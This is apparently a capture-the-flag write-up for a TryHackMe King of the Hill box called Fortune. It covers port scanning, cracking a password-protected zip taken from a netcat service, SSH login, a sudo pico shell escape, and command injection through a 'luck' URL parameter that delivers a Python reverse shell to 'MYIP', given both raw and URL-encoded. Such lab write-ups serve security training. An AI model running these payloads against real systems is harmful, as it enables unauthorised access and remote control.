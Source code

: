 # Fortune.THM - Koth 

as koth is an intensive competition on flags and king declerations it is naturaly a good practice to scan a bunch of things at ones. some what of a fuzzing for entries... in real life this type of stratagy is very loud so don't mimic anything from here this is nat practical at all

### enum
```bash
nmap fortune.thm -p- 
nmap fortune.thm -sV -sC 
nmap fortune.thm 
```
we got a lot of ports lets go for port 3333

### netcat
ill try to use netcat to see what's on the other side

nc fortune.thm 3333

I Got an encoded string... 
I pretty sure it's base64


```bash
nc fortune.thm 3333 | base64 -d
```

i get an output with a "magic byte" = PK
PK is the zip magic byte and every zip file is and shuld have PK at the start of the file.
In addition we can see a file name in the output called "creds.txt". this is defenetly a zip file...
lets save this output as a file

```bash
nc fortune.thm 3333 | base64 -d > test.zip
unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
```

looks like this file has a password, john is my man for the job!

### Meet my friend John.
creat the john file format with zip2john and then send it to john
```bash
zip2john test.zip > hash.txt
john hash.txt
unzip test.zip

unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
 extracting: creds.txt               
```

now that we have our password to the zip file we can unzip and see what contain the creds.txt file
```bash
cat creds.txt
```
we found a use named "fortuna" and his password "**********"

```bash
ssh fortuna@fortune.thm
password:
```

and we are in!
```bash
sudo -l
```
we can see that we are indeed in the sudoers file but we can only run pico as sudo
lets go to https://gtfobins.github.io/ to see what pico can do for us

so i got the shell type b 'exploit'

we run 
```bash
pico -s /bin/sh
```

we type in the text editor "/bin/sh"
and then we will ^T (CTRL + T) to execute out command

and it works just fine Although I think a stable shell can be helpful here and in KOTH in general look here to learn more "https://www.youtube.com/watch?v=f2aSXGbD0NE"


## method b if password has changed / we are no longer a sudo user

try to do somthing like

```bash
cd /home
while True; do bash ./lucky_shell
```

this binery is just an exploit on the system and we can run it until we get a root shell


If you are locked out from fortuna

### gobuster
```bash
gobuster dir -w ~/Desktop/wordlists/wordlistex2.txt -u http://fortune.thm
```
found _style and a message within saying something about the luck paramater... so i just gave it a luck paramater...

```html
fortune.thm/_style/?luck=ls
```
and sure enoght it works! well.. not on the first try
most of the time this will fail but in some cases the command will execute...
lets check if python is around

```html
fortune.thm/_style/?luck="python -c 'print(1)'"
```
and it is!

kali:
```bash
nc -nlvp 1234
```

payload:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MYIP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

poc:
```html
http://fortune.thm/_styles/?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22MYIP%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

we got a shell!
and the rest is the same.
